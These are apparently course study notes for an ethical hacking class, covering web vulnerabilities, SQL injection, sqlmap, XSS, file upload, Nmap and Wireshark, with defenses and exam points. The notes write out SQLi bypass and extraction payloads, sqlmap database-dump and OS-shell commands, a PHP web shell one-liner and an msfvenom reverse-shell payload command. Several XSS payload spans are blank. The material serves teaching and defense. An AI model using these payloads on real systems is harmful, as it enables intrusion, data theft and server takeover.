

# Volume 06 — Lectures 51–62: Web Vulnerabilities & Advanced Tools

> Ethical Hacking · NPTEL 106105217 · Prof. Indranil Sengupta

---

## L51: Web Application Vulnerability Scanning

### Concepts
- **OWASP Top 10:** injection, broken auth, sensitive data exposure, XXE, broken access control, misconfig, XSS, insecure deserialization, vulnerable components, insufficient logging.
- **Web app architecture:** browser → web server → application server → database.
- **Scanning types:** passive (spider/crawl), active (inject payloads), authenticated (with credentials).
- **False positives:** scanner reports vulnerability that doesn't exist — always verify manually.
- **Scope:** stay within authorized URLs/parameters defined in engagement rules.

### Tools
- **Burp Suite:** proxy, scanner, intruder, repeater (industry standard)
- **OWASP ZAP:** open-source web scanner
- **Nikto:** web server vulnerability scanner
- **dirb / gobuster / ffuf:** directory and file brute-forcing
- **wpscan:** WordPress-specific scanner

### Attack Steps
1. Configure Burp proxy; browse target application through proxy.
2. Spider/crawl all pages: `Target → Site map → right-click → Spider`.
3. Active scan: `Target → Site map → right-click → Scan`.
4. Directory brute-force: `gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt`.
5. Review findings; manually verify critical issues.

### Defenses
- WAF (Web Application Firewall) — ModSecurity, Cloudflare
- Regular automated scanning in CI/CD pipeline
- Input validation and output encoding
- Keep frameworks and libraries patched

### Exam Bullets
- OWASP Top 10 lists most **critical web application risks**.
- Burp Suite acts as **intercepting proxy** between browser and server.
- Active scanning **sends attack payloads**; passive only observes traffic.
- Directory brute-forcing discovers **hidden pages and admin panels**.
- Always **verify scanner findings** manually before reporting.

---

## L52: SQL Injection — Authentication Bypass Part 1

### Concepts
- **SQL Injection (SQLi):** insert malicious SQL into application query via unsanitized user input.
- **Root cause:** string concatenation of user input into SQL query.
- **Authentication bypass:** inject SQL that makes WHERE clause always true.
- **Injection points:** login forms, search boxes, URL parameters, HTTP headers, cookies.
- **Types:** in-band (results in response), blind (no direct output), out-of-band (DNS/HTTP exfiltration).

### SQL Injection Authentication Bypass Flow

### Tools
- Browser developer tools (modify form inputs)
- Burp Suite Repeater (craft requests)
- `' OR '1'='1` — classic auth bypass
- `' OR 1=1--` — comment out remainder of query

### Attack Steps
1. Identify login form or parameter reflected in SQL query.
2. Test with single quote: `'` — look for SQL error messages.
3. Auth bypass payload in username: `admin' OR '1'='1'--`.
4. Alternative: `admin'--` (comment out password check).
5. If successful, access application as authenticated user.

### Defenses
- **Parameterized queries (prepared statements)** — never concatenate user input
- Input validation (whitelist allowed characters)
- Least-privilege database accounts (no DROP/UNION privileges)
- WAF with SQLi rules (secondary defense, not primary)

### Exam Bullets
- SQLi root cause: **unsanitized user input concatenated** into SQL query.
- `' OR '1'='1` makes WHERE clause **always true** → bypasses authentication.
- `--` (double dash) is SQL **comment** — ignores rest of query.
- **Prepared statements** separate SQL structure from data (primary defense).
- Single quote `'` in input often triggers **SQL error** revealing vulnerability.

---

## L53: SQL Injection — Error Based Part 2

### Concepts
- **Error-based SQLi:** exploit verbose SQL error messages to extract database information.
- **MySQL functions:** `extractvalue()`, `updatexml()`, `floor()` + `rand()` for error-based extraction.
- **Information gathering:** database name, table names, column names, data values.
- **UNION-based injection:** append UNION SELECT to extract data from other tables.
- **UNION requirements:** same number of columns, compatible data types.

### Tools
- Burp Suite Intruder (automate payloads)
- SQLi payload lists: `sqlmap` bundled payloads, PayloadsAllTheThings
- Manual payloads:
  - `' AND extractvalue(1,concat(0x7e,(SELECT database())))--`
  - `' UNION SELECT 1,2,3,4--` (enumerate column count)

### Attack Steps
1. Confirm injection: `' AND 1=1--` (normal response) vs `' AND 1=2--` (error/different response).
2. Determine column count: `' ORDER BY 1--`, `' ORDER BY 2--`, ... until error.
3. Find visible column: `' UNION SELECT 1,2,3--` (which numbers appear in response?).
4. Extract database name: `' UNION SELECT 1,database(),3--`.
5. Extract tables: `' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()--`.

### Defenses
- Disable verbose error messages in production (custom error pages)
- Parameterized queries / ORM with parameter binding
- Database user with minimal privileges (no information_schema access)
- WAF blocking UNION, extractvalue, information_schema keywords

### Exam Bullets
- Error-based SQLi exploits **verbose database error messages** for data extraction.
- UNION SELECT requires **matching column count** and compatible types.
- `ORDER BY N--` technique finds **number of columns** in query.
- `information_schema.tables` reveals **table names** in MySQL.
- `extractvalue()` forces **XPath error** containing injected data (MySQL).

---

## L54: SQL Injection — Error Based from Web Application Part 3

### Concepts
- **Practical exploitation workflow** on DVWA, WebGoat, or custom vulnerable apps.
- **DVWA security levels:** Low (no filtering) → Medium (basic filter) → High (CSRF token) → Impossible (prepared statements).
- **Filter bypass techniques:**
  - Case variation: `UnIoN SeLeCt`
  - Comment injection: `UN/**/ION SELECT`
  - URL encoding: `%27 OR %271%27=%271`
  - Double encoding, hex encoding
- **Blind SQLi introduction:** boolean-based (`AND 1=1` vs `AND 1=2`) and time-based (`SLEEP(5)`).

### Tools
- DVWA (Damn Vulnerable Web Application)
- Burp Suite Intruder with payload positions
- Browser extensions: HackBar, FoxyProxy
- Custom Python scripts for blind extraction

### Attack Steps
1. Set DVWA security to Low; navigate to SQL Injection page.
2. Test: `1' OR '1'='1` in user ID parameter.
3. At Medium (escaped quotes): `1 OR 1=1` (numeric injection, no quotes needed).
4. At High: capture CSRF token + inject simultaneously.
5. Blind boolean: `1' AND SUBSTRING(database(),1,1)='d'--` (character-by-character extraction).

### Defenses
- Prepared statements at all security levels (DVWA "Impossible" level)
- Input type validation (integer fields → cast to int)
- CSRF tokens prevent automated exploitation (not a SQLi fix alone)
- Comprehensive WAF rules + rate limiting

### Exam Bullets
- Numeric injection: no quotes needed when input is **not string-quoted** in query.
- Filter bypass: **case variation, comment injection, encoding**.
- Blind SQLi: **no error messages** — infer from response differences or timing.
- `SLEEP(5)` = **time-based blind** SQLi (MySQL).
- CSRF token protects form submission but **does not prevent SQLi** if token is obtained.

---

## L55: SQLMAP

### Concepts
- **sqlmap:** automated SQL injection and database takeover tool.
- **Detection engine:** tests all SQLi types (boolean, error, union, stacked, time-based).
- **DBMS support:** MySQL, PostgreSQL, MSSQL, Oracle, SQLite, and more.
- **Post-exploitation:** dump tables, read files, OS shell (via stacked queries/UDF).
- **Tamper scripts:** modify payloads to evade WAF/filtering.

### Tools
- `sqlmap -u "http://target/page?id=1" --dbs` — enumerate databases
- `sqlmap -u URL -D dbname --tables` — enumerate tables
- `sqlmap -u URL -D db -T users --dump` — dump table
- `sqlmap -u URL --os-shell` — attempt OS command execution
- `sqlmap --tamper=space2comment` — WAF evasion

### Attack Steps
1. Capture request in Burp; save to file or copy URL with cookie.
2. Test injection: `sqlmap -u "http://target/page?id=1" --batch`.
3. Enumerate: `sqlmap -u URL --dbs --batch`.
4. Dump credentials: `sqlmap -u URL -D app_db -T users --dump`.
5. Escalate: `sqlmap -u URL --os-shell` (requires stacked queries + high privileges).

### Defenses
- Parameterized queries (makes sqlmap detection fail)
- WAF blocking sqlmap signatures (User-Agent, request patterns)
- Database least privilege (no FILE privilege, no xp_cmdshell)
- Monitor for sqlmap User-Agent and timing-based scan patterns

### Exam Bullets
- sqlmap automates **detection and exploitation** of all SQLi types.
- `--dbs` enumerates databases; `--dump` extracts **table data**.
- `--os-shell` requires **stacked queries** and DBA-level privileges.
- Tamper scripts (`--tamper`) modify payloads to **evade WAF filters**.
- `--batch` runs with **default answers** (non-interactive mode).

---

## L56: Cross Site Scripting

### Concepts
- **XSS:** inject malicious JavaScript into web page viewed by other users.
- **Types:**
  - **Reflected:** payload in URL/form; executed immediately (non-persistent).
  - **Stored:** payload saved in database; executed for every visitor (persistent).
  - **DOM-based:** client-side JavaScript processes untrusted input without server round-trip.
- **Impact:** session hijacking (cookie theft), defacement, keylogging, phishing, redirect.
- **Cookie theft:** ``.

### Tools
- Burp Suite (inject in parameters)
- Browser console (test payloads)
- BeEF (Browser Exploitation Framework) — hook browsers
- XSS payload lists: PayloadsAllTheThings, PortSwigger XSS cheat sheet

### Attack Steps
1. Find input reflected in HTML response (search box, comment field, profile name).
2. Test: ``.
3. If filtered, try bypasses: ``, `<svg onload=alert(1)>`.
4. Steal cookies: ``.
5. Hook with BeEF: ``.

### Defenses
- **Output encoding** (HTML entity encode user data before rendering)
- Content Security Policy (CSP): `script-src 'self'`
- HttpOnly flag on session cookies (prevents JavaScript access)
- Input validation (secondary defense — encoding is primary)

### Exam Bullets
- Stored XSS is **persistent** — affects all users viewing the page.
- Reflected XSS requires **victim to click malicious link**.
- DOM-based XSS: vulnerability in **client-side JavaScript** (no server involvement).
- HttpOnly cookie flag prevents **JavaScript cookie theft**.
- CSP `script-src` restricts **which scripts can execute** on the page.

---

## L57: File Upload Vulnerability

### Concepts
- **Unrestricted file upload:** server accepts any file type → attacker uploads web shell.
- **Web shell:** PHP/ASP/JSP script providing remote command execution on server.
- **Bypass techniques:**
  - Double extension: `shell.php.jpg`
  - MIME type spoofing: `Content-Type: image/jpeg` with PHP content
  - Null byte: `shell.php%00.jpg` (legacy)
  - Case variation: `shell.PhP`
  - Polyglot file: valid image header + embedded PHP code
- **Impact:** remote code execution (RCE), server compromise, data theft.

### Tools
- Burp Suite Repeater (modify upload request)
- `weevely` — PHP web shell generator
- `msfvenom -p php/meterpreter/reverse_tcp` — PHP payload
- `exiftool` — inject payload into image metadata

### Attack Steps
1. Find file upload functionality (profile picture, document upload).
2. Upload legitimate file; observe allowed extensions and response.
3. Upload PHP shell: `<?php system($_GET['cmd']); ?>`.
4. If blocked, try bypass: rename to `shell.php.jpg`; spoof Content-Type.
5. Access uploaded shell: `http://target/uploads/shell.php?cmd=whoami`.

### Defenses
- Whitelist allowed extensions (not blacklist)
- Validate file content (magic bytes), not just extension/MIME
- Store uploads outside webroot; serve via separate domain
- Rename uploaded files (remove user-controlled names)
- Disable script execution in upload directory

### Exam Bullets
- Web shell provides **remote command execution** on the server.
- Whitelist validation is **stronger than blacklist** for file types.
- MIME type can be **spoofed** — validate magic bytes/content.
- Store uploads **outside webroot** to prevent direct execution.
- Polyglot file is valid image **and** contains executable code.

---

## L58: The NMAP Tool — A Relook Part I

### Concepts
- **Host discovery deep-dive:** ARP scan (local), ICMP echo/timestamp/netmask, TCP SYN/ACK ping, UDP ping.
- **ARP scan (`-PR`):** most reliable on local LAN; doesn't traverse routers.
- **ICMP types:** echo (type 8), timestamp (13), netmask (17) — `-PE`, `-PP`, `-PM`.
- **TCP ping:** SYN to port 80 (`-PS80`), ACK to port 443 (`-PA443`).
- **List scan (`-sL`):** DNS resolution only, no packets to target (stealthiest).

### Tools
- `nmap -sn -PR 192.168.1.0/24` — ARP ping sweep
- `nmap -sn -PE 10.0.0.0/24` — ICMP echo discovery
- `nmap -sL 192.168.1.0/24` — list scan (DNS only)
- `nmap -Pn target` — skip host discovery (treat all as up)

### Attack Steps
1. Local network: `nmap -sn -PR 192.168.1.0/24` (fastest, most reliable).
2. Remote network: `nmap -sn -PE -PS80,443 -PA80,443 10.0.0.0/24`.
3. Firewall evasion: `nmap -Pn -sS` (skip discovery, scan all IPs).
4. Identify live hosts; proceed to port scanning.

### Defenses
- Block ICMP at perimeter (note: `-Pn` bypasses discovery anyway)
- Monitor ARP traffic for scanning patterns
- Honeypot IPs in unused address space to detect scans

### Exam Bullets
- ARP scan (`-PR`) works only on **local Ethernet segment**.
- `-Pn` skips host discovery — treats **all hosts as up**.
- `-sL` performs **reverse DNS only** — no packets to targets.
- ICMP echo = `-PE`; TCP SYN ping = `-PS<port>`.
- Multiple discovery methods increase reliability through **firewalls**.

---

## L59: The NMAP Tool — A Relook Part II

### Concepts
- **Port scan techniques recap:**
  - `-sS` SYN (half-open, stealthy, requires root)
  - `-sT` Connect (full handshake, logged)
  - `-sU` UDP (slow, ICMP port unreachable = closed)
  - `-sN` NULL, `-sF` FIN, `-sX` Xmas (RFC 793 behavior)
- **Port specification:** `-p 22,80,443`, `-p 1-1000`, `-p-` (all 65535), `--top-ports 100`.
- **Speed templates:** `-T0` (paranoid) to `-T5` (insane); default T3.
- **Parallelism:** `--min-parallelism`, `--max-parallelism`, `--min-rate`.

### Tools
- `nmap -sS -p- -T4 target` — full TCP SYN scan, aggressive timing
- `nmap -sU --top-ports 20 target` — top 20 UDP ports
- `nmap -sS -p 80,443,8080,8443 target` — common web ports
- `nmap --reason target` — show why port is in stated state

### Attack Steps
1. Full port scan: `nmap -sS -p- -T4 --min-rate 1000 target`.
2. UDP scan top ports: `nmap -sU --top-ports 50 -T4 target`.
3. Combine: `nmap -sS -sU -p T:80,443,U:53,161 target`.
4. Analyze with `--reason` to understand firewall behavior.

### Defenses
- Port knocking for sensitive services
- Firewall default-deny with allowlist
- IDS rate-based alerting on `-T4`/`-T5` scans
- Reduce attack surface (close unused ports)

### Exam Bullets
- `-sS` = SYN scan; **half-open**, doesn't complete handshake.
- `-p-` scans **all 65535 ports** (TCP or UDP depending on scan type).
- `-T0` to `-T5` control **scan speed** (T0 = slowest/stealthiest).
- NULL/FIN/Xmas scans exploit **RFC 793** response behavior.
- `--reason` shows **why** nmap classified port as open/closed/filtered.

---

## L60: The NMAP Tool — A Relook Part III

### Concepts
- **Service/version detection (`-sV`):** probe open ports, match against nmap-service-probes database.
- **OS detection (`-O`):** TCP/IP stack fingerprinting (TTL, window size, TCP options).
- **NSE (Nmap Scripting Engine):** `--script=default,vuln,auth`.
- **Output and reporting:** `-oA basename` (all formats), `--stylesheet` for HTML.
- **Advanced evasion:** `--data-length`, `--ip-options`, `--source-port`, `--proxies`.

### Tools
- `nmap -sV -O -A target` — version + OS + scripts + traceroute
- `nmap --script vuln target` — vulnerability detection scripts
- `nmap -oA scan_results target` — save all output formats
- `nmap --script smb-vuln* target` — SMB vulnerability checks

### Attack Steps
1. Comprehensive scan: `nmap -sS -sV -O -A --script=default,vuln -oA full_scan target`.
2. Targeted vuln check: `nmap --script http-vuln* -p 80,443 target`.
3. Review XML output; import into Metasploit: `db_import scan_results.xml`.
4. Cross-reference service versions with Exploit-DB / searchsploit.

### Defenses
- Keep services updated (version detection reveals patch level)
- OS fingerprint obfuscation (some OS allow TTL/window customization)
- NSE script detection at IPS/WAF layer
- Minimize exposed service information (remove banners)

### Exam Bullets
- `-sV` probes open ports for **service name and version**.
- `-O` requires **at least one open and one closed port** for OS detection.
- `-A` = aggressive: OS + version + scripts + traceroute + **not stealthy**.
- `-oA` saves in **all formats** (normal, XML, grepable).
- NSE `--script vuln` runs **vulnerability detection** scripts.

---

## L61: Network Analysis Using Wireshark

### Concepts
- **Wireshark:** GUI packet analyzer; captures and dissects traffic at frame level.
- **Capture filters (BPF):** applied during capture — `host 192.168.1.1`, `port 80`, `tcp port 443`.
- **Display filters:** applied post-capture — `http`, `tcp.flags.syn==1`, `ip.addr==x`.
- **Follow TCP/UDP stream:** reassemble conversation for readable analysis.
- **Use cases:** troubleshoot connectivity, detect malware C2, analyze attacks, forensic investigation.

### Tools
- Wireshark GUI
- `tshark -i eth0 -f "port 80"` — CLI capture
- `tcpdump -i eth0 -w capture.pcap`
- Wireshark Statistics → Conversations / Endpoints / Protocol Hierarchy

### Attack Steps (Analysis)
1. Start capture on relevant interface during attack (MITM, scan, exploit).
2. Filter: `http.request.method == "POST"` — find credential submissions.
3. Filter: `dns.qry.name` — identify DNS queries (C2 domains, exfiltration).
4. Follow TCP stream on suspicious connection to read cleartext data.
5. Export objects: File → Export Objects → HTTP (extract transferred files).

### Defenses
- Encrypt all traffic (TLS) — Wireshark sees only metadata without keys
- Network monitoring with automated anomaly detection
- Full packet capture (FPC) appliances for forensic retention
- DNS logging and Sinkholing for C2 detection

### Exam Bullets
- Capture filter (BPF) applied **during** capture; display filter **after**.
- `tcp.flags.syn==1 && tcp.flags.ack==0` filters **SYN packets** (scan detection).
- Follow TCP Stream **reassembles** entire conversation for reading.
- Wireshark cannot decrypt TLS without **session keys** (SSLKEYLOGFILE).
- `tshark` is Wireshark's **command-line** counterpart.

---

## L62: Summarization of the Course

### Concepts
- **Course arc recap:**
  1. **Networking foundations** (L1–10): OSI/TCP-IP, addressing, TCP/UDP, subnetting
  2. **Routing & reconnaissance** (L11–20): routing protocols, IPv6, Nmap, Nessus
  3. **Exploitation & crypto** (L21–30): Metasploit, MITM, symmetric/asymmetric cryptography
  4. **Applied security** (L31–40): hashes, PKI/TLS, steganography, network attacks, DNS/email
  5. **Offensive techniques** (L41–50): passwords, phishing, malware, Wi-Fi, DoS, hardware security
  6. **Web & advanced tools** (L51–62): SQLi, XSS, file upload, Nmap mastery, Wireshark

### Pentest Methodology Summary

| Phase | Activities | Key Tools |
|-------|-----------|-----------|
| Reconnaissance | OSINT, DNS enum, WHOIS | whois, dig, theHarvester |
| Scanning | Host discovery, port scan, vuln scan | Nmap, Nessus |
| Gaining Access | Exploit vulns, credential attacks | Metasploit, sqlmap, Hydra |
| Maintaining Access | Persistence, privesc, lateral movement | Meterpreter, Mimikatz |
| Covering Tracks | Log deletion, timestomp | Meterpreter post modules |
| Reporting | Document findings, CVSS, remediation | Nessus reports, manual writeup |

### Defense-in-Depth Summary

| Layer | Controls |
|-------|----------|
| Network | Firewalls, IDS/IPS, segmentation, VPN, DAI |
| Host | Patching, EDR, least privilege, hardening |
| Application | Input validation, prepared statements, WAF, CSP |
| Data | Encryption (AES-GCM, TLS 1.3), hashing (Argon2), DLP |
| Human | Security awareness, phishing training, MFA |
| Physical | Biometrics, PUF, tamper detection, secure boot |

### Exam Bullets
- Pentest phases: **recon → scan → exploit → maintain → report**.
- Defense-in-depth: multiple **independent security layers**.
- CIA triad + authentication + non-repudiation = core security goals.
- Always obtain **written authorization** before any security testing.
- Keep tools updated: Nmap NSE, Nessus plugins, Metasploit modules, sqlmap tamper scripts.

---

*Previous: [Volume 05](vol-05.md) · [Course Index](../lecture-index.md)*
